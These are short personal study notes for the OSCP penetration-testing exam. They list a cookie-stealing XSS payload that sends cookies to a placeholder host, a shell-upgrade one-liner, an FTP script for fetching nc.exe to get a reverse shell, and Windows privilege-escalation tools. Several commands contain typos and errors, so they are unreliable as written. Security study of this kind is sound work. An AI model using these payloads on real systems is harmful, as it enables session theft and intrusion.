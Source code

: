 # OSCP NOTES

● <script>new image().src="http://ip:port/bogus.php?output="+escape(document.cookie);</script>
● netstat -ntl >> list open port
● wappalyzer >> webpage programming lange ,service{apache,lls}, OS
● <dirb> <gobaster> :: fuzzing directuries >> wfuzz 
   wfuzz -c -z file,wordlist directiry --hc 404,302,301 url/fuzz.(php,txt,zip,sh........)

○ python -c 'import pty; pty.spawn("/bin/bash")'
   Ctrl +z 》 process to background 
   Stay raw -echo
   fg
   By this way you take interactive shell

○ reverse shell by FTB
    echo open ip >ftp.txt
    echo user limbo >ftp.txt
    echo pass >ftp.txt
    echo bin >ftp.txt
    echo GET nc.exe> ftp.txt
    echo bye>ftp.txt
 Ftp -v -n -s:ftp.txt

#automation enumeration

○ windows privesc check >> check system misconfiguration
○ watson >> .net app : find KBs(knownlege base) >> check patchs, updates
○ sherlok >> like wayson in powershell script
○ powerup >> token - services - dll hijacking - registery
○ windows exploit suggester >> patchs vs microsost vuln db
○ WinPEAS exe bat
